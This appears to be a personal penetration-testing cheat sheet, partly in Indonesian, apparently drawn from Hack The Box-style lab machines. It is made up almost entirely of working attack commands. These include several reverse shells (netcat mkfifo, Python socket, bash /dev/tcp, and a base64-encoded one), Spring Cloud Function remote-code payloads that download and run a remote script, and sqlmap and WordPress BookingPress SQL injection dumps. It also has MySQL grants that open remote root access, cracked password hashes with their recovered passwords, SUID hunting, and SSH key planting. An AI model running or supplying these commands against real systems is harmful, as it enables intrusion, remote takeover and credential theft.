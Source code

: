# Note
check access 
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null


check service service --status-all => bisa untuk revshell atau tahap deffense
python3 -c "import pty;pty.spawn('/bin/bash')" => bisa untuk interactive shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.10 4444 >/tmp/f

# sql map
sqlmap -u "" --current-db => bisa untuk dapetin database
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables
-D soccer_db -T accounts --dump

## with url
sqlmap -u http://167.71.207.218:50621/logins.php -X POST --data "username=foo&passw0rd='*&login-btn=" --batch --tamper=randomcase,space2comment -D web_blindsql --dump --time-sec 1 --threads=10


# revshell python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.37',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);


# find permission privsec
find / -perm -u=s -type f 2>/dev/null

# fuzzing
nmap -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.138
nmap -sC -sV -p 22,25,80,110,111,143,443,745,993,995,3306,4190,4445,4559,5038,10000 -oA nmap/scriptstcp 10.10.10.7
nmap -A -T4 -oG writeup.gnmap 10.10.10.138
masscan -p1-65535,U:1-65535 10.129.95.203 --rate=1000
nmap -v -sV -p80,443 --script vuln -oA http_vuln 10.10.10.79
nmap -sC -sV ip -p-
nmap detail port 
sudo nmap -sU -top-ports=100 panda.htb
nmap -p22,50051 -sCV -Pn 10.129.37.201 -oN targeted
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.34.244 -oG allPorts
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.191/FUZZ -e .txt


# fuzzing subdomain
gobuster vhost -u stocker.htb -w /usr/share/wordlists/subdomains-top1million-110000.txt
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain 
gobuster dir -u http://10.10.10.187/admin-dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html -t 20 -o scans/

# kalau misal udah fuzzing gak ada ada apa apa fungzzing pake /cig-bin -x sh,cgi,pl
gobuster-admindir-medium-php_txt_html_zip


# fuzzing directory
gobuster dir -u previse.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php 
wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691

dirsearch -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
wfuzz -c --sc 200 -w ./common.txt -w /usr/share/wfuzz/wordlist/general/extensions_common.txt -u http://10.10.10.191/FUZZFUZ2Z


# mysql   
GRANT ALL PRIVILEGES ON *.* TO root@10.129.82.0 IDENTIFIED by 'wizz' WITH GRANT OPTION;
create user 'wiz'@'%' identified by 'wiz';
grant all privileges on *.* to wiz@'%';

# get information gathering with curl
curl -I 10.129.230.29
curl -S 

# curl command send payload encode
curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.34/4444 0>&1" http://10.129.81.227/shell.php

# fuzzing lfi
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt --hc 404 --hh 206 http://192.168.0.119/index.php?file=FUZZ

check /proc/self/cmdline => untuk lihat cmdline terakhir

# spring cloud revshell
curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"nc 10.10.14.52 4444")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/file.txt")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.19/rev.sh -o /tmp/exp.sh")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/exp.sh")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("nc 10.10.14.19 4444")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'


curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=33b508d232&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'


# hasing brute 

❯ cat hashes
administrator:15657792073e8a843d4f91fc403454e1
bill:13edad4932da9dbb57d9cd15b66ed104
michael:bd3dad50e2d578ecba87d5fa15ca5f85
john:a7eed23a7be6fe0d765197b1027453fe
dmytro:5d15340bded5b9395d5d14b9c21bc82b

❯ sed 's/^/NaCl/' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > newrockyou.txt
  
❯ john -w:newrockyou.txt hashes --format=Raw-MD5
Loaded 5 password hashes with no different salts (Raw-MD5 [MD5 128/128 XOP 4x2])
NaCliluvhorsesandgym (bill)
NaClAaronthehottest (dmytro)
NaCl2applesplus2apples (michael)
Session completed


# windows
change /etc/passwd on windows
file:///c:/windows/win.ini


# listen samba
smbclient ldap
smbclient -L ////10.10.10.11.202//

listen smbclient with remote dir
smbclient //10.10.11.202/Public


# revshell php bash exec
echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzYvNDQ0NCAwPiYx" |base64 -d | bash    


# replace ssh
ssh-keygen
cp id_rsa.pub authorized_keys

create .ssh

ssh -i id_rsa -L 8000:localhost:8000 strapi@10.129.149.92
